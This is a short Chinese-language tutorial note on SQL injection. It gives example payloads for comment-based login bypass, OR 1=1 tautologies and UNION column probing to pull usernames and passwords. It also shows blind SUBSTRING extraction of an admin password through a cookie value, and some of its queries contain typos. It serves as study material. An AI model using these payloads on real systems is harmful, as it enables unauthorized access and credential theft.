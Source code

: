 # SQL注入

作者: fbk
时间：2023-1-16
地点：济南
>足够优秀再大方拥有
## 报错与注释
- 在不知道用户名的情况下
```sql
select * from users where username='fbk''and password='mime'
```
很显然，上边的sql语句出现了小括号不匹配的情况，mysql会把fbk设置一个字符串，把and password=视为另一个字符串，这就导致mysql会把报错的信息回传
- 在知道用户名但是不知道密码的情况下
```sql
select * from users where username='fbk' --'and password='mima'
```
sql会默认吧--后边的信息设置为注释信息
- 在知道不知道用户名的情况下
```sql
select * from users where 1=1 or username='fbk' or password='123456'
```
## union
```sql
select * from table1 union select 
--在union连接表后select可以不加查询表的名字
```
union的操作必须保证合并两边的列数是一致的，所以我们可以判断一个表中有多少列
```sql
select * from table1 union select null
select * from table1 union select null,null
select * from table1 union select null,null,null,null
```
一直重复不断地测试就可以知道有多少列了

如果知道了一个表的名字，我们就可以进行查询
```sql
select * from table1 union select null,null,null from allusers

select * from table1 union select username,password,null from allusers
```
但是使用union进行联立，我们还要注意查询的字段类型是否匹配，可以使用sql注释
```sql
select * from products where name='fbk' union select null,username,password from users --'
```
## 使用cookie进行sql注入
```sql
select cookiedld from allUsers wher ecookied='fbk12e12re21' and SUBSTRING('password',1,1) ='m' --'
```
如果说sql语句注入成功，但是页面不发生变化，则说明我们猜中了密码的第一个字符是m
```sql
select cookiedld from allUsers wher ecookied='fbk12e12re21'and SUBSTRING((select password from users where username=='admin'),1,1)='a'
select cookiedld from allUsers wher ecookied='fbk12e12re21'and SUBSTRING((select password from users where username=='admin'),1,1)='b'
select cookiedld from allUsers wher ecookied='fbk12e12re21'and SUBSTRING((select password from users where username=='admin'),1,1)='c'
```
前提是我们已经知道了管理员的账户是admin并且username和password储存在同一个表中，我们就可以进行判断，直到页面没有跳转，说明我们验证到了密码第一个字符